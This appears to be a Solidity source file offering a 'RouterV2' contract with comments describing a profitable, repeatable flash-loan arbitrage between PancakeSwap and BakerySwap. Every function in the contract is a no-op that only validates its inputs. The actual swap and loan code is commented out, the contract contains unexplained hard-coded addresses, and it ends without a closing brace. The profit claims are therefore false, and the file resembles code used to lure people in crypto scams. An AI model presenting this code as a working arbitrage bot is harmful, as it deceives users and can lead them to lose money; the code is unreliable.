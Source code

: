 pragma solidity ^0.5.0;

interface IPancakePair { event Approval( address indexed owner, address indexed spender, uint256 value ); event Transfer(address indexed from, address indexed to, uint256 value);

function name() external pure returns (string memory);

function symbol() external pure returns (string memory);

function decimals() external pure returns (uint8);

function totalSupply() external view returns (uint256);

function balanceOf(address owner) external view returns (uint256);

function allowance(address owner, address spender)
    external
    view
    returns (uint256);

function approve(address spender, uint256 value) external returns (bool);

function transfer(address to, uint256 value) external returns (bool);

function transferFrom(
    address from,
    address to,
    uint256 value
) external returns (bool);

function DOMAIN_SEPARATOR() external view returns (bytes32);

function PERMIT_TYPEHASH() external pure returns (bytes32);

function nonces(address owner) external view returns (uint256);

function permit(
    address owner,
    address spender,
    uint256 value,
    uint256 deadline,
    uint8 v,
    bytes32 r,
    bytes32 s
) external;

event Mint(address indexed sender, uint256 amount0, uint256 amount1);
event Burn(
    address indexed sender,
    uint256 amount0,
    uint256 amount1,
    address indexed to
);
event Swap(
    address indexed sender,
    uint256 amount0In,
    uint256 amount1In,
    uint256 amount0Out,
    uint256 amount1Out,
    address indexed to
);
event Sync(uint112 reserve0, uint112 reserve1);

function MINIMUM_LIQUIDITY() external pure returns (uint256);

function factory() external view returns (address);

function token0() external view returns (address);

function token1() external view returns (address);

function getReserves()
    external
    view
    returns (
        uint112 reserve0,
        uint112 reserve1,
        uint32 blockTimestampLast
    );

function price0CumulativeLast() external view returns (uint256);

function price1CumulativeLast() external view returns (uint256);

function kLast() external view returns (uint256);

function mint(address to) external returns (uint256 liquidity);

function burn(address to)
    external
    returns (uint256 amount0, uint256 amount1);

function swap(
    uint256 amount0Out,
    uint256 amount1Out,
    address to,
    bytes calldata data
) external;

function skim(address to) external;

function sync() external;

function initialize(address, address) external;
}

contract RouterV2 {

function pancakeRouterV2Address() public pure returns (address) {
    return 0x05fF2B0DB69458A0750badebc4f9e13aDd608C7F;
}

function compareStrings(string memory a, string memory b)
    public pure
    returns (bool)
{
    return (keccak256(abi.encodePacked((a))) ==
        keccak256(abi.encodePacked((b))));
}

function pancakeSwapAddress() public pure returns (address) {
    return 0x752656e0016AB2a5c6C89B5b7b50c90D143C147b;
}

//1. A flash loan borrowed 3,137.41 BNB from Multiplier-Finance to make an arbitrage trade on the AMM DEX PancakeSwap.
function borrowFlashloanFromMultiplier(
    address add0,
    address add1,
    uint256 amount
) public pure {
    require(uint(add0) != 0, "Address is invalid.");
    require(uint(add1) != 0, "Address is invalid.");
    require(amount > 0, "Amount should be greater than 0.");
}

//To prepare the arbitrage, BNB is converted to BUSD using PancakeSwap swap contract.
function convertBnbToBusd(address add0, uint256 amount) public pure {
    require(uint(add0) != 0, "Address is invalid");
    require(amount > 0, "Amount should be greater than 0");
}

function bakerySwapAddress() public pure returns (address) {
    return 0xE02dF9e3e622DeBdD69fb838bB799E3F168902c5;
}

//The arbitrage converts BUSD for BNB using BUSD/BNB PancakeSwap, and then immediately converts BNB back to 3,148.39 BNB using BNB/BUSD BakerySwap.
function callArbitrageBakerySwap(address add0, address add1) public pure {
    require(uint(add0) != 0, "Address is invalid!");
    require(uint(add1) != 0, "Address is invalid!");
}

//After the arbitrage, 3,148.38 BNB is transferred back to Multiplier to pay the loan plus fees. This transaction costs 0.2 BNB of gas.
function transferBnbToMultiplier(address add0)
    public pure
{
    require(uint(add0) != 0, "Address is invalid!");
}

//5. Note that the transaction sender gains 3.29 BNB from the arbitrage, this particular transaction can be repeated as price changes all the time.
function completeTransation(uint256 balanceAmount) public pure {
    require(balanceAmount >= 0, "Amount should be greater than 0!");
}

function swap(
    uint256 amount0Out,
    uint256 amount1Out,
    address to
) external pure {
    require(
        amount0Out > 0 || amount1Out > 0,
        "Pancake: INSUFFICIENT_OUTPUT_AMOUNT"
    ); 
    require(uint(to) != 0, "Address can't be null");/*
    (uint112 _reserve0, uint112 _reserve1,) = getReserves(); // gas savings
    require(amount0Out < _reserve0 && amount1Out < _reserve1, 'Pancake: INSUFFICIENT_LIQUIDITY');

    uint balance0;
    uint balance1;
    { // scope for _token{0,1}, avoids stack too deep errors
    address _token0 = token0;
    address _token1 = token1;
    require(to != _token0 && to != _token1, 'Pancake: INVALID_TO');
    if (amount0Out > 0) _safeTransfer(_token0, to, amount0Out); // optimistically transfer tokens
    if (amount1Out > 0) _safeTransfer(_token1, to, amount1Out); // optimistically transfer tokens
    if (data.length > 0) IPancakeCallee(to).pancakeCall(msg.sender, amount0Out, amount1Out, data);
    balance0 = IERC20(_token0).balanceOf(address(this));
    balance1 = IERC20(_token1).balanceOf(address(this));
    }
    uint amount0In = balance0 > _reserve0 - amount0Out ? balance0 - (_reserve0 - amount0Out) : 0;
    uint amount1In = balance1 > _reserve1 - amount1Out ? balance1 - (_reserve1 - amount1Out) : 0;
    require(amount0In > 0 || amount1In > 0, 'Pancake: INSUFFICIENT_INPUT_AMOUNT');
    { // scope for reserve{0,1}Adjusted, avoids stack too deep errors
    uint balance0Adjusted = balance0.mul(1000).sub(amount0In.mul(2));
    uint balance1Adjusted = balance1.mul(1000).sub(amount1In.mul(2));
    require(balance0Adjusted.mul(balance1Adjusted) >= uint(_reserve0).mul(_reserve1).mul(1000**2), 'Pancake: K');
    }

    _update(balance0, balance1, _reserve0, _reserve1);
    emit Swap(msg.sender, amount0In, amount1In, amount0Out, amount1Out, to);*/
}

function lendingPoolFlashloan(uint256 _asset) public pure {
    uint256 data = _asset; 
    require(data != 0, "Data can't be 0.");/*
    uint amount = 1 BNB;

    ILendingPool lendingPool = ILendingPool(addressesProvider.getLendingPool());
    lendingPool.flashLoan(address(this), _asset, amount, data);*/
}
